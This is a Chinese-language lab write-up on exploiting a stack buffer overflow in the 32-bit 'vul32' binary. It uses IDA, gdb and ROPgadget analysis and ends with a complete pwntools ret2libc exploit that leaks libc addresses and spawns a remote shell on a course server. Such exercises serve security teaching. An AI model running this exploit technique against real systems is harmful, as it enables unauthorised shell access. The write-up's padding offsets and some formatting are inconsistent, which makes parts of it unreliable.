 # Lab1 - vul32

## 环境配置

在 Windows 11 PC 上安装 IDA 7.7，配合服务器 Ubuntu 20.04.5 LTS 64 位，使用 gdb 调试。

## 安全措施检查

使用`checksec`检查目标程序的安全性，

```shell
checksec --format=json --file=./vul32/vul32
```

得到如下结果，

```json
{ 
  "./vul32/vul32": { 
    "relro":"partial",
    "canary":"yes",
    "nx":"yes",
    "pie":"no",
    "rpath":"no",
    "runpath":"no",
    "symbols":"yes",
    "fortify_source":"yes",
    "fortified":"0",
    "fortify-able":"2" 
  } 
}
```

## 分析过程

使用 IDA 打开 vul32 可执行程序，使用 F5 将可执行程序 decompile 成 C Pseudocode. 能在左侧 Functions 栏中看到各个函数的信息，找到其中的 `main()` 函数作为入口。

```c
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  write(1, wel, 0x1Eu);
  dovuln();
  return 0;
}
```

依次查看调用的各个函数，发现其中漏洞代码出现在 `dovuln()` 函数中，对其进行 decompile.

```c
int dovuln()
{
  int v0; // eax
  char buf; // [esp+4h] [ebp-44h] BYREF
  char v3[51]; // [esp+5h] [ebp-43h] BYREF
  int v4; // [esp+38h] [ebp-10h]
  unsigned int v5; // [esp+3Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  memset(v3, 0, 0x30u);
  v4 = 0;
  while ( 1 )
  {
    if ( read(0, &buf, 1u) != 1 )
      exit(0);
    if ( buf == 10 ) // LF/NL(Line Feed/New Line)
      break;
    v0 = v4++;
    v3[v0] = buf;
  }
  return puts(v3);
}
```

分析以上代码，发现可以利用 `while(1)` 实现输入读入的过程，不检查输入长度，只依赖检查输入字符是不是换行符 `LF/NL(Line Feed/New Line)(ASCII #10)`结束输入。因此可以利用缓冲区溢出漏洞，覆盖返回地址，实现任意代码执行。

根据 IDA 的注释，同时参考栈的结构，可以发现用于保存输入字符的数组`v3` 如果发生溢出，可以影响到变量`v4`，而`v4`控制着下一个字符在`v3`中的 offset 量，因此我们可以得到如下攻击思路，

1. 构造恶意输入，导致数组`v3`溢出覆盖变量`v4`；
2. 通过修改`v4`的值，控制下一个字符的 offset 量，使得下一个字符覆盖返回地址，而根据栈的结构，**返回地址位于`ebp`上方的 4 Bytes**；
3. 攻击目标是通过调用`libc`的函数，在目标机器上执行`system('\bin\sh')`指令；

使用如下代码在 `vul32` 中查找字符串`/bin/sh`，未能查找到，因此需要在`libc`中查找，在 `0x0015912b` 处找到。

```shell
$ ROPgadget --binary vul32/vul32 --string '/bin/sh'
Strings information
============================================================
```

```shell
$ ROPgadget --binary vul32/libc.so.6 --string '/bin/sh'
Strings information
============================================================
0x0015912b : /bin/sh
```

因此，我们需要在`libc`中同时找到`system`函数地址和`/bin/sh`字符串地址，以此拼接为恶意负载。

## 使用pwntools构造恶意负载

整体来说，攻击思路如下，

1. 构造恶意输入，导致数组`v3`溢出覆盖变量`v4`；
2. 通过修改`v4`的值，控制下一个字符的 offset 量，使得下一个字符覆盖返回地址，由于ASLR的存在，需要先通过`puts()`函数泄露`libc`基址，并让`puts()`函数返回到`main()`函数中，从而可以再次调用`dovuln()`函数；
3. 获取`libc`中`__libc_start_main()`地址，和上一步泄露的`libc`随机化的地址，计算出`libc`基址；
4. 获取`system`函数地址和`/bin/sh`字符串地址，加上`libc`基址，拼接为恶意负载；
5. 将恶意负载发送给服务端，触发漏洞，执行`system('\bin\sh')`指令；

在IDA中查看`dovuln()`相关的汇编指令，可以找到其入口地址和结束时调用`puts()`的地址，分别为`0x080485CB`和`0x08048641`，如下方两图所示，

![](assets/entrance_of_dovuln.png)

![](assets/exit_of_dovuln.png)

因此可以在`gdb`中对此处打下断点，用于观察调用栈及寄存器情况。

启动`gdb`，并加载`vul32`，并在`dovuln()`函数入口处打下断点，如下，

```shell
$ gdb vul32/vul32
(gdb) b *0x080485CB
Breakpoint 1 at 0x80485cb
(gdb) b *0x08048641
Breakpoint 2 at 0x8048641
```

在 IDA 的分析中，我们可以知道 `v4` 位于 ebp - 0x10 处，`v3` 位于 ebp - 0x43处，因此我们需要覆盖 `v4` 的内容为 0x47，查 ASCII 表有 0x47 对应的字符为 `G`，因此我们需要构造 0x43 个 `A`，再加上 1 个 `G`，就可以继续修改返回地址了。

```python

在 Breakpoint 2 处，输入测试的字符串，如下，

```text
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAGBBBBBBBBBBB
```

并查看调用栈 `x/32xw $esp`，如下图所示，

![](assets/stack.png)

其中能看到对应 `A` 的 0x41，在一些字节后能看到我们输入的测试字符串 `B`（对应 0x42），说明我们的栈溢出攻击成功了。

随后使用 `pwntools` 完成如构造真实攻击负载、计算偏移地址、解析输出等功能，即完成了本次漏洞利用的全部过程，含有注释的攻击代码如附录A所示。

## 附录A 完整的漏洞利用代码

```python
from pwn import *

# context.terminal = ['tmux', 'splitw', '-h']

# sh = process('./vul32/vul32')
# gdb.attach(sh)
sh = remote('cssc.vul337.team', 49294)

# sh = pwnlib.gdb.debug('./vul32/vul32') # not working, don't know why

vul32 = ELF('./vul32/vul32') # load the vul32 file
puts_plt = vul32.plt['puts'] # get the address of the puts function
libc_start_main_got = vul32.got['__libc_start_main'] # get the address of the __libc_start_main function
main = vul32.symbols['main'] # get the address of the main function

libc = ELF('./vul32/libc.so.6') # load the libc file
system_addr = libc.symbols['system'] # get the address of the system function in libc
binsh_addr = next(libc.search(b'/bin/sh')) # get the address of the "/bin/sh" string in libc

# create the payload 1, used to leak the address of the __libc_start_main function
payload = flat(['A' * 0x33, "G", puts_plt, main, libc_start_main_got])
sh.sendlineafter('Plz input something:\n', payload) # send the payload 1
sh.recv() # receive the output of the payload 1
sh.recv()

libc_start_main_addr_leak = u32(sh.recv()[1:5]) # starts with a "/n" character
# libc_start_main_addr_leak = u32(sh.recv()[len(flat(['A' * 0x33, "G"])) + 1:len(flat(['A' * 0x33, "G"])) + 5]) # this line is needed in local environment

libc_base = libc_start_main_addr_leak - libc.symbols['__libc_start_main'] # calculate the base address of libc

system_addr = libc_base + system_addr # calculate the address of the system function in libc
binsh_addr = libc_base + binsh_addr # calculate the address of the "/bin/sh" string in libc

payload = flat(['A' * 0x33, "G", system_addr, "bbbb", binsh_addr]) # create the payload 2, used to get the shell
sh.sendline(payload) # send the payload 2
sh.interactive() # get the shell
sh.close() # close the connection
```


## 附录B 各个函数的伪代码汇总

```c
/*  main() */
int __cdecl main(int argc, const char **argv, const char **envp)
{
  setbuf(stdin, 0);
  setbuf(stdout, 0);
  setbuf(stderr, 0);
  write(1, wel, 0x1Eu);
  dovuln();
  return 0;
}
```

```c
/*  dovuln() */
int dovuln()
{
  int v0; // eax
  char buf; // [esp+4h] [ebp-44h] BYREF
  char v3[51]; // [esp+5h] [ebp-43h] BYREF
  int v4; // [esp+38h] [ebp-10h]
  unsigned int v5; // [esp+3Ch] [ebp-Ch]

  v5 = __readgsdword(0x14u);
  memset(v3, 0, 0x30u);
  v4 = 0;
  while ( 1 )
  {
    if ( read(0, &buf, 1u) != 1 )
      exit(0);
    if ( buf == 10 )
      break;
    v0 = v4++;
    v3[v0] = buf;
  }
  return puts(v3);
}
```